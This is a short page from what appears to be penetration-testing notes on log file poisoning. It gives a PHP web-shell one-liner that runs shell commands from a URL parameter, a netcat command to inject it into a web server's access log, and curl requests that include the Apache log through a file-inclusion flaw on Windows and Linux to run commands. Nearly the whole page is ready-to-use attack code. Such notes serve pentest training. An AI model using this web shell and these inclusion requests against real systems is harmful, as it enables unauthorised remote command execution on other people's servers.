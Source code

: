 ```yaml
---
title: Log File Poisoning
layout: default
nav_order: 3
parent: Web Apps
grand_parent: Exploitation
---
```


# Log File Poisoning
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Log File Contamination

1. Poison the log file with PHP code
```bash
nc -nv $IP $PORT
```

2. The following code PHP code executes commands through PHP. We send it to the target `$PORT` that the web server is open on
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

3. Send the PHP code to the web server
```
kali@kali:~$ nc -nv 10.11.0.22 $PORT
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```



#### Log poisoning on Windows
```bash
curl http://$IP/file.php?file=c:\xampp\apache\logs\access.log?&cmd=ipconfig
```

#### Log poisoning on Linux
```bash
curl http://$IP/file.php?file=/var/log/apache2/access.log?cmd=ifconfig
```